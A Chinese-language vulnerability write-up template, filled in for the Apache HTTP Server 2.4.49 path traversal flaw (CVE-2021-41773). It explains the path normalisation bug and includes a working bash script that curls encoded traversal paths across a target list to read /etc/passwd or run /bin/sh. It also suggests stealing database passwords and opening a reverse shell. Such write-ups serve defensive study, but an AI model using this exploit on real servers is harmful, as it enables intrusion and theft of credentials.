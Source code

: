 

# CVE-xxx-xxx-xxx | xx >= 2.5.2 存在xxx漏洞

> 标题 格式为:CVE编号 |  版本简述、漏洞类型



## 0x00 漏洞说明

> 此段落简单明确的描写漏洞产生的影响

在Apache HTTP Server x.x.x.x 中对路径规范化所做的更改中发现了一个缺陷。攻击者可以使用路径遍历攻击穿越到服务器目录以外。在开启CGI配置后，将会从目录穿越 / 信息泄露升级为RCE。



## 0x01 影响版本

> 此段落描写受漏洞影响的软件版本

- == Apache HTTP Server x.x.x.x
- <= Apache HTTP Server x.x.x.x



## 0x02 漏洞成因

> 此段落简明描写漏洞是由什么原因造成的，是哪个函数引发的漏洞等

1. 由于在Apache HTTP Server x.x.x升级到 Apache HTTP Server x.x.x时，对路径规范化所做的更改中出现漏洞，该漏洞是由于 ***server/util.c\*** 中的 ***ap_normalize_path\*** 函数 一次解析一个 Unicode 值并在所有字符都被解码之前尝试检测遍历逻辑导致的。
2. 当攻击者在 URL 中使用  ***/.%2e/\***  时，第 572 行的逻辑不会将 ***%2e\***  识别为句号，此时该字符尚未被解码。但该版本Apache HTTP Servers并没有在这种情况下将整体URL进行解码并匹配目录穿越过滤，导致  **/.%2e/**  被 直接代入传递，导致目录穿越。 

3. 该漏洞默认配置情况下只存在目录遍历，但开启不受限制的 ***mod_cgi\*** 功能将会造成RCE



## 0x03 漏洞代码

> 此段落贴出该系统漏洞所在的代码块与文件目录，由于本文库使用了插件，可以在代码块上方使用 **!FILENAME <文件目录>**   的格式撰写 ，尽量不使用图片，图片或代码块下方可以简单描述

!FILENAME server/util.c
```c
# server/util.c 第 561 – 596 行

if (path[l] == '.') {
    /* Remove /./ segments */
    if (IS_SLASH_OR_NUL(path[l + 1])) {
        l++;
        if (path[l]) {
            l++;
        }
        continue;
    }

    /* Remove /xx/../ segments */
    if (path[l + 1] == '.' && IS_SLASH_OR_NUL(path[l + 2])) {
        /* Wind w back to remove the previous segment */
        if (w > 1) {
            do {
                w--;
            } while (w && !IS_SLASH(path[w - 1]));
        }
        else {
            /* Already at root, ignore and return a failure
             * if asked to.
             */
            if (flags & AP_NORMALIZE_NOT_ABOVE_ROOT) {
                ret = 0;
            }
        }

        /* Move l forward to the next segment */
        l += 2;
        if (path[l]) {
            l++;
        }
        continue;
    }
}
```



## 0x04 详细分析

>  该段落主要撰写详细分析漏洞存在的原因，例如什么函数导致了什么

当攻击者在 URL 中使用 ***/.%2e/\*** 时，第 572 行的逻辑不会将 ***%2e\*** 识别为句号，此时该字符尚未被解码。但该版本Apache HTTP Servers并没有在这种情况下将整体URL进行解码并匹配目录穿越过滤，导致 **/.%2e/** 被 直接代入传递，导致目录穿越，具体如下:

!FILENAME server/util.c

```c
/* Remove /xx/../ segments */
                if (path[l + 1] == '.' && IS_SLASH_OR_NUL(path[l + 2]))
#上面的代码错误判断了目录穿越的payload，&& 判断只有在目录.的后面跟的是/或者空的时候才会触发次规则，并且没有解URL编码的%2e传入后并不会对%2e解码进行回溯验证，也不会对整体URL进行解码匹配，而是只识别了%,2,e                    

                    
#define IS_SLASH(s) (s == '/')
#define IS_SLASH_OR_NUL(s) (s == '\0' || IS_SLASH(s))
```



## 0x05 漏洞指纹

> 该段落主要用于描写漏洞指纹或者特征截图,可选

fofa:

```
title="apache"
```





## 0x06 POC & EXP

> 主要存放一些用于该漏洞的EXP & POC，可以是漏洞复现，但要求尽量少用图片的方式，精简内容，比如截图漏洞点，文本描述漏洞复现经过，粘贴burp数据包等




!FILENAME exp.sh
```bash
# Exploit Title: Apache HTTP Server 2.4.49 - Path Traversal
# Date: 10/05/2021
# Exploit Author: Lucas Souza https://lsass.io
# Vendor Homepage:  https://apache.org/
# Version: 2.4.49
# Tested on: 2.4.49
# CVE : CVE-2021-41773
# Credits: Ash Daulton and the cPanel Security Team

#!/bin/bash

if [[ $1 =3D=3D '' ]]; [[ $2 =3D=3D '' ]]; then
echo Set [TAGET-LIST.TXT] [PATH]
echo ./PoC.sh targets.txt /etc/passwd
exit
fi
for host in $(cat $1); do
curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e$2"; done

# PoC.sh targets.txt /etc/passwd
# PoC.sh targets.txt /bin/sh whoami
```



## 0x07 进阶利用思路

> 该段落描写一些自我理解和实战环境中的进阶利用思路

- 在特殊情况下可对网页配置文件进行读取，发现数据库连接密码等铭感信息
- 可使用bash直接反弹shell



## 0x08 冗余项

> 此段落不限制段落数量，根据需求添加



## 0x09 扩展链接

> 此段落主要撰写扩展阅读链接，以及详细分析该漏洞的文章等

[Apache Httpd Cve 2021 41773 And Cve 2021 42013 漏洞详细分析](https://n0b1ta.github.io/Apache-httpd-CVE-2021-41773-and-CVE-2021-42013-%E6%BC%8F%E6%B4%9E%E8%AF%A6%E7%BB%86%E5%88%86%E6%9E%90)

## 0x10 联系方式

> 此段落主要撰写该文章的联系方式，在审核结束后会根据作者意愿保留 / 删除

作者 : BitWiki支持团队
